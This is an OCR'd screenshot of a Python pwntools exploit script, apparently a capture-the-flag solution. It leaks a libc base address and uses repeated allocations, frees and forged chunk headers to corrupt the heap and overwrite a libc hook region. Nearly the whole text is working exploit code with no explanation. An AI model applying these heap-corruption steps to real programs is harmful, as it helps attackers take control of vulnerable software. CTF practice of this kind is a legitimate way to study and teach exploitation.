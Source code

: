 ```python
p.readuntil("* ")
base=u64(p.readuntil("\x20")[:-1]+"\0\0")-(0x7ffff7dd1b78-0x7ffff7a0d000)

p.sendlineafter(">> ","T"*0x30)
p.sendlineafter(">> ","1")
# let do hack

Aim=0x555555756005

add("n132",10)
add("n132",11)
add("n132",12)
add("n132",13)
add("n132",14)
add("n132",15)
add("n132",16)
add("n132",17)
add("n132",18)
add("n132",19)
add("n132",20)
context.log_level='debug'

free(10)
creat("1"*0x8+'\x41',1)
free(11)
creat(p64(0xdeadbeef11),1)

creat("132",0x21)

creat("A"*0x28+p64(heap+0x410),0)
free(-1)

free(12)
creat("A"*0x30+p64(0x7ffff7dd1af0-0x7ffff7a0d000+base)[:-1],'1')

specific_name=p64(0x4853f48949555441)+p64(0x33e313058b10ec83)

creat(specific_name,str(0x21))

creat("n132",0x666)
add("n132",21)
add("n132",22)
add("n132",23)
add("n132",24)
add("n132",25)
add("n132",26)
add("n132",27)
add("n132",28)
add("n132",29)
add("n132",30)

#creat fastbin[0](0x30)
free(13)
creat("A"*8+'\x31',1)
free(14)
creat(p64(0xdeadbeef11),1)

creat("A"*0x28+p64(heap+0x610),0)
free(-1)


free(15)
creat("Y"*8+'\xa1',1)
```